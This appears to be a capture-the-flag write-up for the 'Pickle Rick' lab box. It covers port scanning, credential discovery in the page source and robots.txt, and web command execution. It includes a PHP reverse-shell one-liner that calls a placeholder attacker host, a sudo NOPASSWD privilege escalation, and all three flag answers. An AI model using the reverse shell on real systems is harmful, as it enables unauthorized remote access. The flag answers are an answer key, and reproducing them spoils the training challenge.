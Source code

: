 # Pickle Rick

**Target IP : 10.10.152.72**

- Username: "R1ckRul3s" (page source)

#### Nmap Scanning
Open Ports
- 22 : OpenSSH
- 80 : Apache/2.4.18 (Webserver)

Nmap result : [here](./intitial-scan.txt)

#### Enumeration
we found robots.txt,
- Looking this file we think, *password* might be : "Wubbalubbadubdub"
- Found "/login.php" page from nikto output
	![](./screenshots/nikto.png)

Enumeration result : [here](./enum-initial.txt)

#### Flags

Using above credentials, login to "10.10.152.72/login.php"
- execute ls command to list files (or we can have a reverse shell setup using
	```php
	php -r '$sock=fsockopen("<attacking-machine IP>",<port>);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

	```
	)

- Concatenate Sup3rS3cretPickl3Ingred.txt file using<br>
	```bash
	less Sup3rS3cretPickl3Ingred.txt

	```
	**First Ingredient : "mr. meeseek hair"**

- Concatenate clue.txt file for further details of other ingredients.

- From clue.txt, we start searching other ingredients and found one in "/home/rick/second\ ingredients"<br>
	**Second Ingredient : "1 jerry tear"**

let's check do we need password to run sudo command using

```bash
sudo -l

```

we get,
![](./screenshots/no_pass.png)

From this line ("(ALL) NOPASSWD: ALL)") we are sure that we can run any command with sudo without having password.

- list content of root directory using,
	```bash
	sudo ls /root

	```

we get,
![](./screenshots/sudo_ls.png)

- Concatenate 3rd.txt.<br>
	**Third Ingredient : "fleeb juice"**

